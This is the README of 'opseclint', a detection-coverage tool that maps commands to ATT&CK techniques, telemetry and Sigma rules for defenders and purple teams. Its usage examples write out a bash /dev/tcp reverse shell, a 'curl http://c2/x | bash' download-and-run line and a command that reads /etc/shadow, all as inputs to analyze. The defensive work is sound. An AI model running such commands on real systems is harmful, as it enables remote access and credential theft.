

<!-- Back to top anchor -->
<a id="readme-top"></a>

<!-- PROJECT SHIELDS -->
<div align="center"><nobr>

[![Crates.io][crates-shield]][crates-url]<!--
-->[![Downloads][downloads-shield]][downloads-url]<!--
-->[![CI][ci-shield]][ci-url]<!--
-->[![Marketplace][marketplace-shield]][marketplace-url]<!--
-->[![Last Commit][lastcommit-shield]][commits-url]<!--
-->[![Stargazers][stars-shield]][stars-url]<!--
-->[![Issues][issues-shield]][issues-url]<!--
-->[![MIT License][license-shield]][license-url]

</nobr></div>

<!-- PROJECT HEADER -->
<br />
<div align="center">
  <h1 align="center">🛡️ opseclint</h1>

  <p align="center">
    A detection-coverage analyzer for the command line — <em>“what would a defender see?”</em>
    <br />
    <a href="#usage"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://crates.io/crates/opseclint">Install</a>
    &middot;
    <a href="https://github.com/Gerrrt/opseclint/issues/new?labels=bug&template=bug_report.yml">Report Bug</a>
    &middot;
    <a href="https://github.com/Gerrrt/opseclint/issues/new?labels=detection-logic&template=coverage_request.yml">Request Coverage</a>
  </p>
</div>



<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#who-its-for">Who it's for</a></li>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li>
      <a href="#usage">Usage</a>
      <ul>
        <li><a href="#platforms">Platforms</a></li>
        <li><a href="#real-sigma-rules">Real Sigma rules</a></li>
        <li><a href="#github-code-scanning">GitHub code scanning</a></li>
        <li><a href="#use-as-a-github-action">Use as a GitHub Action</a></li>
        <li><a href="#detectability-score">Detectability score</a></li>
        <li><a href="#how-it-works">How it works</a></li>
      </ul>
    </li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

<!-- ABOUT THE PROJECT -->
## About The Project

**opseclint** points at a command, a script, or a post-exploitation playbook and
statically resolves each action to the [MITRE ATT&CK][attack-url] technique(s) it
implements, the host telemetry it emits, and the detections that would fire —
each with a detectability score. It answers one question: **“what would a
defender see?”** across **Linux/auditd**, **Windows/Sysmon**, and **macOS/Endpoint
Security**.

```console
$ opseclint -c 'bash -i >& /dev/tcp/198.51.100.10/4444 0>&1'

opseclint — detection-coverage report (linux-auditd)
1 line analyzed, 1 finding

  L1  [CRITICAL 82]  Bash /dev/tcp reverse shell — interactive C2 channel
        technique  T1059.004 Command and Scripting Interpreter: Unix Shell
        telemetry  bash execve() followed by connect() to attacker IP
        detection  Sigma: Reverse shell via /dev/tcp redirection (proc_creation_lnx)

summary  loudest action: CRITICAL (82)
```

### Who it's for

- **Detection engineers** validating coverage — “if an operator ran this, would
  my ruleset catch it, and with what telemetry?”
- **Purple teams** mapping an engagement's actions to expected detections.
- **Red teams** (under authorization) reasoning about a playbook's telemetry
  footprint.

> [!NOTE]
> opseclint describes **detectability** — the defensive signal an action
> generates. It is **not** an evasion tool: it does not recommend “quieter”
> alternatives. Absence of a finding means only that nothing in the knowledge
> base matched — never that an action is stealthy.

### Built With

[![Rust][rust-shield]][rust-url]
[![MITRE ATT&CK][attack-shield]][attack-url]
[![Sigma][sigma-shield]][sigma-url]
[![SARIF][sarif-shield]][sarif-url]

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- GETTING STARTED -->
## Getting Started

### Prerequisites

Nothing at runtime — opseclint ships as a single self-contained binary. To build
from source you need a stable [Rust][rust-url] toolchain (edition 2024).

### Installation

```bash
cargo install opseclint          # from crates.io
```

Or grab a prebuilt binary for Linux, macOS (Intel + Apple Silicon), or Windows
from the [Releases][releases-url] page, or build from a checkout:

```bash
cargo build --release            # -> target/release/opseclint
```

**Docker** — a tiny (~750 KB, `scratch`-based) image is published to GHCR:

```bash
docker run --rm -v "$PWD":/work ghcr.io/gerrrt/opseclint /work/script.sh
docker run --rm ghcr.io/gerrrt/opseclint -c 'curl http://c2/x | bash'
```

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- USAGE -->
## Usage

```bash
opseclint script.sh                 # analyze a file (Linux/auditd by default)
opseclint -c 'sudo cat /etc/shadow' # analyze a single command
cat playbook.sh | opseclint         # read from stdin
opseclint app.ps1 --platform windows-sysmon   # analyze against Windows/Sysmon

opseclint script.sh --min 50        # only show findings >= detectability 50
opseclint script.sh --json          # machine-readable output
opseclint script.sh --sarif         # SARIF 2.1.0 (GitHub code scanning)
opseclint script.sh --sigma ./sigma # enrich with a real SigmaHQ checkout
opseclint script.sh --check-rule r.yml    # does this Sigma rule fire on each line?
opseclint script.sh --sigma ./sigma --coverage-gaps   # which actions no rule catches
opseclint script.sh --ci --threshold 70   # exit 1 if loudest action >= 70
```

### Platforms

Select the host telemetry model with `--platform` (default `linux-auditd`):

| Platform          | Telemetry model                                   |
|-------------------|---------------------------------------------------|
| `linux-auditd`    | Linux with auditd / EDR syscall events            |
| `windows-sysmon`  | Windows with Sysmon (Event IDs) / Security log    |
| `macos-es`        | macOS with Endpoint Security (ESF) / unified log  |

Each platform has its own embedded knowledge base, so `whoami` resolves to Linux
`execve()` telemetry, a Windows Sysmon EID 1, or a macOS ESF `NOTIFY_EXEC`
depending on the target. Windows program names are normalized
(`C:\…\certutil.exe` → `certutil`). When combined with `--sigma`, rules are
filtered to the platform's `logsource.product`.

### Real Sigma rules

By default, detection references in the seed KB are *representative*. Point
`--sigma` at a checkout of [SigmaHQ/sigma][sigma-url] (or any directory of Sigma
YAML) and opseclint indexes every rule by its ATT&CK technique tag, then replaces
each finding's references with the **genuine rule titles and UUIDs** that match —
platform-relevant rules only.

```bash
git clone --depth 1 https://github.com/SigmaHQ/sigma
opseclint examples/recon.sh --sigma sigma/rules
# detection  Sigma: Access To Sudoers File (2c9d1141-…) (high confidence)
```

The parsed index is cached to disk (fingerprinted by the ruleset directory), so
repeat runs against a large checkout skip re-parsing and note `[cached]` on a
hit. Override the location with `OPSECLINT_CACHE_DIR`; `--no-sigma-cache`
bypasses it.

### Evaluate a single rule (`--check-rule`)

Beyond technique-tag matching, opseclint can evaluate a command against a Sigma
rule's actual `detection:`/`condition:` logic and report, per command, whether it
**FIRES**, **NO-FIRE**s, or is **INDETERMINATE** — the last meaning the rule keys
on a field a static analyzer can't synthesize (e.g. `ParentImage`, a hash), so
opseclint honestly abstains rather than guess.

```console
$ opseclint script.sh --check-rule docker_socket.yml
sigma rule check: Docker Socket Access Via Curl Or Wget (85f46916-…)
  L1   curl   FIRES
  L2   wget   NO-FIRE
  L7   curl   INDETERMINATE
         (needs ParentImage)
```

### Coverage gaps (`--coverage-gaps`)

The headline purple-team feature: given a playbook and a real `--sigma` ruleset,
report the **blind spots** — actions whose ATT&CK techniques *have* rules, yet
none of those rules actually fire on the specific command.

```console
$ opseclint examples/recon.sh --sigma sigma/rules --coverage-gaps
opseclint — coverage gaps (linux-auditd) vs 251 rule(s)

  ✓ COVERED  L23  Bash /dev/tcp reverse shell   [T1059.004, T1071]
        fires: Suspicious Reverse Shell Command Line
  ⚠ GAP      L18  Socket / network connection discovery   [T1049]
        rule(s) exist for its technique(s), but none fire
  ? INDET    L6   System owner / current user discovery   [T1033]
        needs host fields to confirm

summary  1 gap(s), 10 covered, 3 indeterminate, 1 no-rules
```

`GAP` = a rule for that technique exists but wouldn't trigger on this action;
`INDET` = a matching rule needs a field a static analyzer can't see; `NO-RULES`
= the ruleset has nothing for that technique. With `--ci`, the run exits
non-zero when any gap is found.

### GitHub code scanning

`--sarif` emits [SARIF 2.1.0][sarif-url], so findings surface in a repo's
**Security → Code scanning** tab, tagged with their ATT&CK technique and a
`security-severity` derived from the detectability score. See
[`.github/workflows/ci.yml`](.github/workflows/ci.yml) for an upload job.

### Use as a GitHub Action

A composite action ([`action.yml`](action.yml)) downloads a released binary and
analyzes a path in CI (Linux runners):

```yaml
- uses: Gerrrt/opseclint@v0.1.1
  with:
    path: examples/
    platform: linux-auditd       # or windows-sysmon | macos-es
    fail-threshold: "75"         # optional: fail the job on a loud action
    sarif-file: opseclint.sarif  # optional: emit SARIF...

- uses: github/codeql-action/upload-sarif@v3   # ...then upload it
  with:
    sarif_file: opseclint.sarif
```

### Detectability score

A 0–100 estimate of how strongly an action surfaces in defensive telemetry
(higher = louder), bucketed as:

| Score  | Severity  |
|--------|-----------|
| 0–24   | LOW       |
| 25–49  | MEDIUM    |
| 50–74  | HIGH      |
| 75–100 | CRITICAL  |

`--ci` turns this into a gate: it exits non-zero when the loudest modeled action
meets or exceeds `--threshold`, so a team can fail a pipeline on tradecraft that
exceeds an agreed noise budget.

### How it works

1. **Parser** (`parser.rs`) — quote-aware tokenizer that strips comments and
   `VAR=value` assignments, splits on control operators, unwraps `sudo`/`env`/…,
   and resolves each segment to a program + arguments. A preprocessing pass joins
   line continuations, resolves commands hidden in `$(...)`/backtick
   substitutions, and handles here-docs (body skipped as data unless it feeds a
   shell interpreter).
2. **Knowledge base** (`data/knowledge*.json`) — one KB per platform; each entry
   maps a command (or a raw pattern) to ATT&CK techniques, the telemetry it
   emits, representative Sigma-style detections, and a detectability score.
3. **Analyzer** (`analyzer.rs`) — matches every action against the KB,
   deduplicates per line, and ranks findings loudest-first.
4. **Report** (`report.rs`) — terminal, JSON, or SARIF output, plus the CI gate.

All KBs are embedded at compile time, so opseclint ships as a single static
binary with no runtime dependencies. Adding coverage is a data change, not a code
change — see [CONTRIBUTING.md](CONTRIBUTING.md).

Try it against the [`examples/`](examples/) playbooks:

```bash
opseclint examples/recon.sh                                      # post-compromise recon (Linux)
opseclint examples/persistence.sh                                # accounts, cron, systemd, ld.so.preload, …
opseclint examples/defense-evasion.sh                            # SELinux/firewall/auditd off, log & history wiping
opseclint examples/windows-postex.ps1 --platform windows-sysmon  # Windows LOLBins, credential access
opseclint examples/macos-postex.sh    --platform macos-es        # keychain, Gatekeeper, launchd
```

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- ROADMAP -->
## Roadmap

- [x] Three platforms — Linux/auditd, Windows/Sysmon, macOS/Endpoint Security
- [x] Real SigmaHQ enrichment with an on-disk cache
- [x] SARIF output → GitHub code scanning
- [x] Distribution — crates.io, prebuilt binaries, a GitHub Action, and a GHCR image
- [x] [Sigma rule-logic evaluator](docs/design/rule-logic-evaluator.md) — three-valued `FIRES` / `NO-FIRE` / `INDETERMINATE`, via `--check-rule`
- [x] `--coverage-gaps` — flag actions whose techniques have rules but where none fire
- [ ] Deepen each KB and add EDR-specific telemetry mappings

See the [open issues][issues-url] for the full list.

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTRIBUTING -->
## Contributing

Contributions make the open-source community an amazing place to learn and
create. The most valuable contributions here are **new detection coverage** and
**false-positive/negative fixes** — most of which are data changes, not code.

1. Fork the project
2. Create your feature branch (`git checkout -b feat/amazing-coverage`)
3. Run the gates: `cargo fmt --all --check`, `cargo clippy --all-targets -- -D warnings`, `cargo test`
4. Commit your changes (`git commit -m 'Add some amazing coverage'`)
5. Push to the branch (`git push origin feat/amazing-coverage`)
6. Open a Pull Request

See [CONTRIBUTING.md](CONTRIBUTING.md) for the knowledge-base entry schema and
conventions. By participating you agree to the
[Code of Conduct](CODE_OF_CONDUCT.md).

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- LICENSE -->
## License

Distributed under the MIT License. See [`LICENSE`](LICENSE) for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

Garrett Allen — [@Gerrrt](https://github.com/Gerrrt)

Project Link: [https://github.com/Gerrrt/opseclint](https://github.com/Gerrrt/opseclint)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

- [MITRE ATT&CK][attack-url] — the technique taxonomy opseclint maps to
- [SigmaHQ][sigma-url] — the open detection-rule standard behind `--sigma`
- [Best-README-Template](https://github.com/othneildrew/Best-README-Template) — this README's structure

<p align="right">(<a href="#readme-top">back to top</a>)</p>

> **Detection references in the seed KB are representative** of publicly available
> Sigma logic and should be validated against your deployed ruleset before you
> rely on them.

<!-- MARKDOWN LINKS & IMAGES -->
[crates-shield]: https://img.shields.io/crates/v/opseclint?style=flat-square&logo=rust&label=crates.io&color=E37602
[crates-url]: https://crates.io/crates/opseclint
[downloads-shield]: https://img.shields.io/crates/d/opseclint?style=flat-square&logo=rust&label=downloads
[downloads-url]: https://crates.io/crates/opseclint
[ci-shield]: https://img.shields.io/github/actions/workflow/status/Gerrrt/opseclint/ci.yml?branch=main&style=flat-square&logo=githubactions&logoColor=white&label=CI
[ci-url]: https://github.com/Gerrrt/opseclint/actions/workflows/ci.yml
[marketplace-shield]: https://img.shields.io/badge/Marketplace-opseclint-2ea44f?style=flat-square&logo=github
[marketplace-url]: https://github.com/marketplace/actions/opseclint-detection-coverage
[lastcommit-shield]: https://img.shields.io/github/last-commit/Gerrrt/opseclint?branch=main&style=flat-square&logo=git&logoColor=white
[commits-url]: https://github.com/Gerrrt/opseclint/commits/main
[stars-shield]: https://img.shields.io/github/stars/Gerrrt/opseclint?style=flat-square&logo=github
[stars-url]: https://github.com/Gerrrt/opseclint/stargazers
[issues-shield]: https://img.shields.io/github/issues/Gerrrt/opseclint?style=flat-square&logo=github
[issues-url]: https://github.com/Gerrrt/opseclint/issues
[license-shield]: https://img.shields.io/github/license/Gerrrt/opseclint?style=flat-square
[license-url]: https://github.com/Gerrrt/opseclint/blob/main/LICENSE
[releases-url]: https://github.com/Gerrrt/opseclint/releases

[rust-shield]: https://img.shields.io/badge/Rust-000000?style=flat-square&logo=rust&logoColor=white
[rust-url]: https://www.rust-lang.org
[attack-shield]: https://img.shields.io/badge/MITRE_ATT%26CK-C1272D?style=flat-square
[attack-url]: https://attack.mitre.org/
[sigma-shield]: https://img.shields.io/badge/Sigma-2088FF?style=flat-square
[sigma-url]: https://github.com/SigmaHQ/sigma
[sarif-shield]: https://img.shields.io/badge/SARIF_2.1.0-000000?style=flat-square
[sarif-url]: https://sarifweb.azurewebsites.net/
